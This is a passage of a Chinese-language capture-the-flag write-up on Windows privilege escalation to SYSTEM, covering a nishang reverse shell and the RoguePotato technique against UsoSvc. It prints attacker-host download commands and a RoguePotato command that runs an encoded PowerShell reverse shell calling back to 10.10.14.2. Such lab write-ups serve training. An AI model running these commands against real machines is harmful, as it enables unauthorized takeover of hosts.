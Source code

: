 通过利用 sc.exe 本地特权提升，通过上传 nishang 的 shell，反弹获得了 system 特权外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSDspxT1OmviaJM0OLegaiaKw2ibnXrgAqhnCicicsjQnS4omicvE7ODP5Zmicw/640?wx_fmt=png)

通过 system 最高权限获得了 root_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_gif/sDKv42fen7ibImvibcQAzTWKALz80xXATRNaLArXkQdFJlXIoVCNT7P5mhyWCLXiaicY56ibiaTEg2Ir5PQdaiajY4J7A/640?wx_fmt=gif)

方法 2：

土豆提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHS5WyEjF4ib7ibbtRCSwLwWyn6D1ldv3BG1jLFQRMMEo6kuhxibwCib0cicfw/640?wx_fmt=png)

```
https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.zip
iwr http://10.10.14.2/RoguePotato.exe -OutFile RoguePotato.exe
iwr http://10.10.14.2/RogueOxidResolver.exe -OutFile RogueOxidResolver.exe
```

由于 UsoSvc 权限是全开放的，ALL 状态...  

这里可以直接利用土豆提权即可... 用过太多次了... 但是这里在简单讲解一遍...

通过地址下载土豆... 然后上传到靶机...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSkmIkrEO9rsSV5oyb3BuSbBGepUEVrjRbtP8pZ2f3A0O9pFGdlh6ntQ/640?wx_fmt=png)

```
https://github.com/antonioCoco/RoguePotato
```

在土豆页面看到了用的方法...

尝试不适用 CLSID 执行还是无效... 需要查找下 CLSID 写入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSIa154qgsua4Icjk4QHrylSSeUsMLYS8SvMBSqqGHnFAHowkXzX0fog/640?wx_fmt=png)

```
http://ohpe.it/juicy-potato/CLSID/
```

选择 win10...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSR7MpBicABYr8yKzgfTr4r0bN6S0DtpmvBgqmDwTQY8lqCgpvTm5gPdw/640?wx_fmt=png)

然后找到 UsoSvc.... 可看到 CLSID 有两个...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KN3rUDKv2w9hG8ZvibDTGBHSVaicKYuLel624kOSYPSic9npxYvdnwWIgYBKB86KkNLoibwLrPgtEc8icQ/640?wx_fmt=png)

```
./RoguePotato.exe -r 10.10.14.2 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "cmd.exe /c powershell -EncodedCommand + base64-shell即可"
```

通过 - c 写入 CLSID 即可... 成功执行后下载了 nishang 的 shell，获得了 system 外壳...

![](https://mmbiz.qpic.cn/mmbiz_gif/sDKv42fen7ibImvibcQAzTWKALz80xXATRNaLArXkQdFJlXIoVCNT7P5mhyWCLXiaicY56ibiaTEg2Ir5PQdaiajY4J7A/640?wx_fmt=gif)
